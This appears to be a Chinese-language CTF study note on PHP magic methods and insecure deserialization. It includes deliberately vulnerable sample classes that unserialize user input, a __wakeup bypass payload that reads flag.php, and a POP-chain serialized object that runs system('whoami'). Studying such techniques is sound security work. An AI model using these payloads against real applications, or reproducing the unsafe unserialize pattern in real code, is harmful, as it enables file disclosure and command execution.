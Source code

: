 ## 魔术方法

```
__construct(),类的构造函数
__destruct(),类的析构函数
__call(),在对象上下文中调用不可访问的方法时调用
__callStatic(),在静态上下文中调用不可访问的方法时调用
__get(),用于从不可访问的属性读取数据,有时可用于构造POP链
__set(),用于将数据写入不可访问的属性
__isset(),当对不可访问属性调用isset()或empty()时调用
__unset(),当对不可访问属性调用unset()时被调用
__sleep(),执行serialize()时,先会调用这个函数
__wakeup(),执行unserialize()时,先会调用这个函数
__toString(),类被当成字符串时的回应方法,有时可用于构造POP链
__invoke(),当脚本尝试将对象调用为函数时触发
__set_state(),当调用var_export()导出类时,此静态方法会被调用
static __set_state(array $properties): object
```

### __sleep()与__wakeup()

```php
<?php 
class Demo{
    public function __construct($a,$b,$c){
        $this->a=$a;
        $this->b=$b;
        $this->c=$c;
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
    public function showstr(){
        echo $this->str.'<br>';
    }
    public function __sleep(){//serialize前调用
        echo __METHOD__.'<br>';
        return array('a','c');//只返回了$this->a和$this->c,返回需要被序列化存储的成员属性,删减不必要
    }
    public function __wakeup(){//unserialize前调用
        echo __METHOD__.'<br>';
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
}

highlight_file(__FILE__);
$test=new Demo('asdf','qwer','1234');
$test->showstr();
$s_test=serialize($test);
echo $s_test.'<br>';
$u_test=unserialize($s_test);
$u_test->showstr();
?>
```

```
a asdf,b qwer,c 1234
Demo::__sleep
O:4:"Demo":2:{s:1:"a";s:4:"asdf";s:1:"c";s:4:"1234";}
Demo::__wakeup
a asdf,b ,c 1234
```

### __toString()

```php
<?php 
class Demo{
    public function __construct($a,$b,$c){
        $this->a=$a;
        $this->b=$b;
        $this->c=$c;
        $this->str=sprintf("a %s,b %s,c %s",$this->a,$this->b,$this->c);
    }
    public function __toString(){
        return $this->str;
    }
}

highlight_file(__FILE__);
$test=new Demo('asdf','qwer','1234');
echo $test;
?>
```

```
a asdf,b qwer,c 1234
```

[常见触发方法](https://www.cnblogs.com/bmjoker/p/13742666.html)

1. `echo($obj)`或`print($obj)`打印时会触发

2. 反序列化对象与字符串连接时

3. 反序列化对象参与格式化字符串时

4. 反序列化对象与字符串进行==比较时(PHP进行==比较的时候会转换参数类型)

5. 反序列化对象参与格式化SQL语句,绑定参数时

6. 反序列化对象在经过php字符串函数,如`strlen()`,`addslashes()`时

7. 在in_array()方法中,第一个参数是反序列化对象,第二个参数的数组中有toString返回的字符串的时候toString会被调用

8. 反序列化的对象作为`class_exists()`的参数的时候

### 绕过__wakeup()

**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**

>仅使用于 PHP5<5.6.25 PHP7<7.0.10

```php
<?php 
class SoFun{ 
    protected $file='index.php';
    function __destruct(){
        if(!empty($this->file)) {
            if(strchr($this-> file,"\\")===false&&strchr($this->file, '/')===false){
                show_source(dirname (__FILE__).'/'.$this ->file);
            }
            else{
                die('Wrong filename.');
            }
        }
    }
    function __wakeup(){
        $this-> file='index.php';
    } 
    public function __toString(){
        return '';
    }
}     
if(!isset($_GET['file'])){ 
    show_source('index.php');
}
else{
    $file=base64_decode($_GET['file']);
    unserialize($file);
}
?>
```

`O:5:"SoFun":1:{s:7:"*file";s:9:"index.php";}`

`O:5:"SoFun":2:{s:7:"*file";s:8:"flag.php";}`

payload`?file=Tzo1OiJTb0Z1biI6Mjp7Uzo3OiIAKgBmaWxlIjtzOjg6ImZsYWcucGhwIjt9`

### __call()与__invoke()

在对象中调用一个不可访问方法时`__call()`会被调用

```php
<?php

class A
{
    public $class;
    public $parameter;

    public function __destruct()
    {
        if (isset($this->class) && isset($this->parameter)) {
            $this->class->system($this->parameter);
        }

    }
}

class B
{
    public function __call($callback,$parameter)#callback=system
    {
        call_user_func_array($callback,$parameter);
    }
}
$str = '???';
unserialize($str);
```

```php
<?php

class A
{
    public $class;
    public $parameter;
}

class B
{

}

$a=new A();
$b=new B();
$a->class=$b;
$a->parameter="whoami";
var_dump(serialize($a));
```

`O:1:"A":2:{s:5:"class";O:1:"B":0:{}s:9:"parameter";s:6:"whoami";}`

当尝试以调用函数的方式调用一个对象时`__invoke()`方法会被自动调用

```php
<?php

class A
{
    public function __invoke($a)
    {
        var_dump($a);
    }
}

$a = new A;
$a("asdf");
```
